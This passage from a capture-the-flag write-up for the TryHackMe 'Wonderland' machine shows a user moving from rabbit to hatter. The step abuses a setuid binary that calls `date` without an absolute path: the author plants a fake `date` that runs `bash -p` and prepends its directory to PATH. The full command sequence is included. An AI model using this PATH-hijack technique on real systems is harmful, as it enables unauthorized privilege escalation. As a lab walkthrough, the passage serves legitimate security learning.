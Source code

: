 checking out what in rabbit's home directory I found a 64 bit elf executable with both setuid and setgid bits set, this was pleasant to see as my reverese engineering skills are slightly better than my web hacking skills

```bash
rabbit@wonderland:~$ cd ../rabbit/
rabbit@wonderland:/home/rabbit$ ls -lah
total 40K
drwxr-x--- 2 rabbit rabbit 4.0K May 25  2020 .
drwxr-xr-x 6 root   root   4.0K May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit  220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit 3.7K May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit  807 May 25  2020 .profile
-rwsr-sr-x 1 root   root    17K May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
rabbit@wonderland:/home/rabbit$
```

after downloading the binary and opening it with binaryninja, I was able to recover the source code (you can find it [here](https://github.com/0x00Jeff/reversed_binaries/blob/master/tryhackme/teaParty.c))

TLDR; it sets the effective user and group id to 1003, which belong the `hatter`, this way we can spawn a shell as that user, it then prints some stuff and executes the following `bash` command using `system(3)` function

```bash
/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R
```
you can see that `date` wasn't invoked with its absolute path, knowing this, we can make a fake `date` executable then alter the `$PATH` variable so the teaParty executes our version of the said executable

```bash
rabbit@wonderland:/home/rabbit$ cd ../rabbit/
rabbit@wonderland:/home/rabbit$ echo "bash -p" > date
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ export PATH="$PWD:$PATH"
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$
```

### gaining root privileges

`hatter`'s home directory didn't have anything useful for us, there was a file there that contains some kind of password, I tried using it to login as `root`
without any success, after a while it turned out to be `hatter`'s ssh credentiels, it didn't do me any good as `hatter` didn't have the permission to execute commands with sudo
